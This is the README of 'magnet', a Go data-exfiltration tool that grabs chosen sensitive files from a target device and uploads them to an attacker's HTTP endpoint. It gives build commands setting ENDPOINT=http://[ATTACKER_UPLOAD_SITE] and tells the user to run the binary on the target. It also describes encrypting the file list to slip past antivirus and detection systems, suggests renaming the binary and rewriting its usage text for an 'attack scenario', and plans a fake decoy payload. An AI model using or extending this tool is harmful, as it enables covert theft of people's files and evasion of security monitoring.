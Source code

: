 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  The library is built to fetch predefined files of interest from a target devices. It assumes that an HTTP endpoint is listening when the program wise launched.

  <b><i>Cross-platform</i><b>
  <b><i>Stealth</i><b>
  <b><i>Portable</i><b>
  </pre>
</div>



## Usage

### Inject `magnet` in your Go program

### Standalone

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

### Shorcut



To build `magnet` binary in one step:
```shell
make build.magnet.linux $FILE $ENDPOINT
# or build.magnet.windows or build.magnet.darwin
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Compile on your own

The compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=thisismykey 
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```



### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
